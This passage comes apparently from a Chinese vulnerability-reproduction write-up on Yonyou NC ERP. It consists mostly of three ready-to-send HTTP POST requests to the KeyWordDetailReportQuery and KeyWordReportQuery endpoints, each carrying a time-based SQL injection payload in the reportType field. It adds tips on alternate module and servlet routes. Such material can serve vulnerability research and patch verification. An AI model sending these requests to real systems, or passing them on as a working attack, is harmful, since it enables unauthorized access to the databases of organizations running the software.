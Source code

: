 代码差不多，只不过传参需要改一下。

### 漏洞复现

**KeyWordDetailReportQuery 接口：**

[![](assets/1704848456-58f629e774087b910aecccc91db232cb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240109174822-3a28bbe6-aed4-1.png)

```bash
POST /service/~iufo/nc.itf.iufo.mobilereport.data.KeyWordDetailReportQuery HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

{"reportType":"1';waitfor delay '0:0:3'-- ","keyword":[]}
```

或者用通用 ic 模块，当然 用友的路由把 `service`换成`servlet`也是可以的。

```bash
POST /service/~ic/nc.itf.iufo.mobilereport.data.KeyWordDetailReportQuery HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

{"reportType":"1';waitfor delay '0:0:3'-- ","keyword":[]}
```

**KeyWordReportQuery 接口：**

```bash
POST /service/~iufo/nc.itf.iufo.mobilereport.data.KeyWordReportQuery HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

{"reportType":"1';waitfor delay '0:0:3'-- ","pageInfo":{"currentPageIndex":1,"pageSize":1},"keyword":[]}
```
